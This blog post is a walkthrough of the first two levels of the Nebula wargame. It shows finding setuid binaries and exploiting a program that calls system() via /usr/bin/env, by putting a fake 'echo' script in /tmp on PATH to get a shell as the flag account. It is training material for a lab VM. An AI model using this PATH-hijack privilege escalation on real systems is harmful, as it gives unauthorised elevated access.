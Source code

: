 ```yaml
---
layout: post
title:  "exploit-exercises.com - nebula - level01"
categories: exploit-exercises.com nebula
---
```


In the first nebula level we have to find a suid program that will run as the "flag00" account. After a quick google search we find the following command: `find / -user flag00 -perm -4000 -exec ls -ldb {} \;`. This command lists all suid programs under /. The output is quite long but one line stands out: `-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 /rofs/bin/.../flag00`. We can see that the owner of this executable is flag00 and it has the setuid bit set. This means the executable flag00 runs as the user who owns it. Exactly what we are searching for! The following asciicast shows how I solved the level:

<script src="https://asciinema.org/a/9LvDvkTxIdZwgfRWZh0YwUtm0.js" id="asciicast-9LvDvkTxIdZwgfRWZh0YwUtm0" async></script>

The second nebula level wants us to find a vulnerability in the program below:

{% highlight c %} 
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

The last line is interesting. Instead of calling just `echo and now what?` the program runs the command through /usr/bin/env which means that it will run whatever the default version of `echo` is in the current **env**ironment or to be more precisely, the first `echo` executable that appears in the user's `$PATH`.

Let's check our $PATH:
```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

So first it will look for the `echo` program in `/usr/local/sbin`, then in `/usr/local/bin` and so on. Now if we change the `$PATH` variable and introduce a path where we place a file called `echo` then this file will be executed!

```bash
level01@nebula:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level01@nebula:~$ PATH=/tmp:$PATH
level01@nebula:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Let's place the `bash` program in `/tmp` and rename it to `echo`:

```bash
level01@nebula:/home/flag01$ whereis bash
bash: /bin/bash /etc/bash.bashrc /usr/share/man/man1/bash.1.gz
level01@nebula:/home/flag01$ cp /bin/bash /tmp/
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 bash
level01@nebula:/home/flag01$ mv /tmp/bash /tmp/echo
level01@nebula:/home/flag01$ ls -l /tmp/
total 904
-rwxr-xr-x 1 level01 level01 916692 2018-05-27 01:11 echo
```

Now if we run the flag01 program our fake echo command will run and we will have a new shell which runs with the rights of the owner of the flag01 program:

```bash
level01@nebula:/home/flag01$ ./flag01 
echo: and: No such file or directory
```

What happened here? The program tries to call echo (now bash) with the arguments `and now what?`. From `man bash`: *If  arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands.  If bash is invoked in this fashion,  $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits.  Bash's exit status is the exit  sta‐tus  of the last command executed in the script. If no commands are executed the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.*
We have to find a way to ignore these arguments. Let's write a simple script which opens a new shell and ignores `and now what?`:

```bash
#!/bin/bash
bash
```

Save this in a file called `echo` under `/tmp`, make it executable and run the program again:

```bash
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rw-rw-r-- 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ chmod +x /tmp/echo 
level01@nebula:/home/flag01$ ls -l /tmp/
total 4
-rwxrwxr-x 1 level01 level01 17 2018-05-27 02:01 echo
level01@nebula:/home/flag01$ cat /tmp/echo 
#!/bin/bash
bash
level01@nebula:/home/flag01$ ./flag01 
flag01@nebula:/home/flag01$ whoami
flag01
```

Success! Now let's grab the flag:

```bash
flag01@nebula:/home/flag01$ getflag 
You have successfully executed getflag on a target account
```

<script src="https://asciinema.org/a/KKOjmYBfe3nJgrDIz3k5SFuex.js" id="asciicast-KKOjmYBfe3nJgrDIz3k5SFuex" async></script>
